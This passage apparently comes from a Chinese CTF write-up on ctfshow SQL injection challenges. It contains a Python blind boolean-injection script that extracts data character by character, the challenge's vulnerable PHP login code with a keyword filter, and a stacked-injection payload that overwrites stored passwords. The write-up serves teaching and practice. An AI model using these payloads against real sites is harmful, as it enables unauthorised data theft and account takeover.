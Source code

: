 ```python
        data = {
            # 如果某个字符比如c大于chr(99),则返回1，否则返回0，根据回显不同最终确定某位置的某字符
            'username':"1' or if(mid(({}), {}, 1) > '{}', 1, 0)-- -".format(payload, i, chr(mid)),
            'password':1
        }
        r = requests.post(url=url, data=data)
        # print(r.text)
        if r'\u5bc6\u7801\u9519\u8bef' in r.text: #返回'查询失败'证明匹配成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web195（堆叠注入）
> 堆叠注入的使用条件十分有限，其可能受到API或者数据库引擎，又或者权限的限制只有当调用数据库函数支持执行多条sql语句时才能够使用，利用mysqli_multi_query()函数就支持多条sql语句同时执行，但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_ query()函数，其只能执行一条语句，分号后面的内容将不会被执行，所以可以说堆叠注入的使用条件十分有限，一旦能够被使用，将可能对网站造成十分大的威胁。

作者：dawsonenjoy
链接：https://www.jianshu.com/p/c50ced83414d

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```
明示考察堆叠注入，同时需要成功登录才能获取flag，看了查询字段知道了pass字段，考虑将表中的密码改为我们想要的：payload：0;update`ctfshow_user`set`pass`=1234
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639065476545-61e5d6dd-f15e-4850-9711-40f4d43b80c4.png)
